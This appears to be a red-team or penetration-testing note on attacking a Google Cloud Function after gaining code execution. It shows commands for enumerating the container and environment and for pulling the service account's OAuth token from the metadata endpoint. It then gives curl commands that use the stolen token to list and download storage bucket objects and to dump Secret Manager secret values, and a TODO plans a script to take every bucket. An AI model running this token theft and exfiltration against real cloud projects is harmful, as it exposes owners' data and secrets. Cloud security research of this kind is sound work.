# Google Cloud Platform

## Execution Environment

The container runs as root:

```
id
uid=0(root) gid=0(root) groups=0(root)

whoami
root
```

Exploring through the filesystem:

```
pwd
/srv/files

ls -al
total 165
drwxr-xr-x 2 root root      0 Dec 24 18:28 .
drwxr-xr-x 2 root root      0 Dec 24 18:28 ..
-rw-r--r-- 1 root root    252 Dec 24 18:28 Makefile
-rw-r--r-- 1 root root   1688 Dec 24 18:28 cheetah.go
-rw------- 1 root root     24 Dec 24 18:28 go.mod
drwxr-xr-x 2 root root      0 Dec 24 18:28 node_modules
-rw-r--r-- 1 root root 166598 Dec 24 18:28 package-lock.json
-rw-r--r-- 1 root root    907 Dec 24 18:28 package.json

ls -al /srv
total 6
drwxr-xr-x 2 root root    0 Dec 24 04:51 .
drwxr-xr-x 2 root root    0 Dec 24 04:51 ..
drwxr-xr-x 2 root root    0 Dec 24 04:51 files
-rw-r--r-- 1 root root  189 Dec 24 04:51 go.mod
-r-xr-xr-x 1 root root   11 Dec 24 04:51 serverless-build.yaml
drwxr-xr-x 2 root root    0 Dec 24 04:51 vendor
-r-xr-xr-x 1 root root 6267 Dec 24 04:51 worker.go
```

`/srv/vendor` appears to contain helper code from Google:

```
ls -al /srv/vendor
total 0
drwxr-xr-x 2 root root 0 Dec 24 04:51 .
drwxr-xr-x 2 root root 0 Dec 24 04:51 ..
drwxr-xr-x 2 root root 0 Dec 24 04:51 gcfeventhelper

ls -al /srv/vendor/gcfeventhelper
total 4
drwxr-xr-x 2 root root    0 Dec 24 04:51 .
drwxr-xr-x 2 root root    0 Dec 24 04:51 ..
-r-xr-xr-x 1 root root 3886 Dec 24 04:51 event.go
-r-xr-xr-x 1 root root   22 Dec 24 04:51 go.mod

cat /srv/vendor/gcfeventhelper/event.go
// Package gcfeventhelper exports a helper function GetMetadataAndDataFromBody that unmarshalls
// an event from supervisor (both legacy and current API) and returns GCF-specific
// metadata and event data.
...
```

```
env
X_GOOGLE_FUNCTION_TIMEOUT_SEC=60
X_GOOGLE_FUNCTION_MEMORY_MB=256
FUNCTION_TIMEOUT_SEC=60
FUNCTION_MEMORY_MB=256
X_GOOGLE_LOAD_ON_START=false
HOME=/root
X_GOOGLE_FUNCTION_TRIGGER_TYPE=HTTP_TRIGGER
PORT=8080
ENTRY_POINT=Cheetah
X_GOOGLE_SUPERVISOR_HOSTNAME=169.254.8.129
FUNCTION_TRIGGER_TYPE=HTTP_TRIGGER
X_GOOGLE_FUNCTION_NAME=Cheetah
X_GOOGLE_GCLOUD_PROJECT=brandonevans
FUNCTION_NAME=Cheetah
SUPERVISOR_INTERNAL_PORT=8081
X_GOOGLE_GCP_PROJECT=brandonevans
X_GOOGLE_FUNCTION_REGION=us-central1
X_GOOGLE_ENTRY_POINT=Cheetah
FUNCTION_REGION=us-central1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
X_GOOGLE_WORKER_PORT=8091
CODE_LOCATION=/srv
SUPERVISOR_HOSTNAME=169.254.8.129
WORKER_PORT=8091
DEBIAN_FRONTEND=noninteractive
X_GOOGLE_FUNCTION_IDENTITY=brandonevans@appspot.gserviceaccount.com
X_GOOGLE_CONTAINER_LOGGING_ENABLED=true
GCLOUD_PROJECT=brandonevans
FUNCTION_IDENTITY=brandonevans@appspot.gserviceaccount.com
X_GOOGLE_CODE_LOCATION=/srv
PWD=/srv/files/
GCP_PROJECT=brandonevans
X_GOOGLE_SUPERVISOR_INTERNAL_PORT=8081
X_GOOGLE_FUNCTION_VERSION=2
NODE_ENV=production
```

The supervisor service is could be a point of interest?

```
curl 169.254.8.129:8081
404 page not found
```

## Metadata Endpoint

[App Engine Metadata Service](
https://cloud.google.com/appengine/docs/standard/java/accessing-instance-metadata#making_metadata_requests)

Querying the service account for interesting bits of information:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email

<account-email>@developer.gserviceaccount.com

```

Querying for the default aliases:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/aliases

default
```

Querying for the default service accounts for the execution role:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/

aliases
email
identity
scopes
token
```

Querying the metadata service for the valid scopes:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes


https://mail.google.com/
https://www.googleapis.com/auth/analytics
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/contacts
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/presentations
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/streetviewpublish
https://www.googleapis.com/auth/urlshortener
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/youtube

```

Querying the service account authentication token, which appears to be valid for 30 minutes.

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
{"access_token":"ya29.c.ABC123","expires_in":1676,"token_type":"Bearer"}
```

## Token Pivoting

At the time of this writing, I have not found a way to load up the OAuth access token and use it from the `gcloud` command line interface. This overall makes it harder to run commands against the account, but can still be done directly against the API using a proxy tool, Burp, or by using the SDK from a script (Python, Java, .NET, etc.).

TODO: Write a bucket exhilaration script to do the following for us for all buckets and all items in the project.

Set the *access_token* and project environment variables locally using the values obtained from the function execution environment.

```bash
export GOOGLE_ACCESS_TOKEN=<INSERT ACCESS TOKEN>
export GOOGLE_PROJECT=<GOOGLE PROJECT>
```

List the buckets for the project and query the first bucket:

```bash
curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/storage/v1/b?project=$GOOGLE_PROJECT" | jq '.items[0].selfLink'
```

List the objects in the storage bucket

```bash
export GOOGLE_PROJECT_BUCKET=$(curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/storage/v1/b?project=$GOOGLE_PROJECT" | jq -r '.items[0].selfLink')
curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "$GOOGLE_PROJECT_BUCKET/o"
```

Download the object from the bucket:

```bash
export GOOGLE_BUCKET_ITEM=$(curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "$GOOGLE_PROJECT_BUCKET/o" | jq -r '.items[0].selfLink')
curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "$GOOGLE_BUCKET_ITEM?alt=media" --output ~/Downloads/img2.jpg
```

List the secrets in the project:

```bash
curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" https://secretmanager.googleapis.com/v1beta1/projects/$GOOGLE_PROJECT/secrets
```

Dump the secret value:

```
export SECRET_NAME=$(curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" https://secretmanager.googleapis.com/v1beta1/projects/$GOOGLE_PROJECT/secrets | jq -r '.secrets[0].name')
curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" https://secretmanager.googleapis.com/v1beta1/$SECRET_NAME/versions/latest:access
```
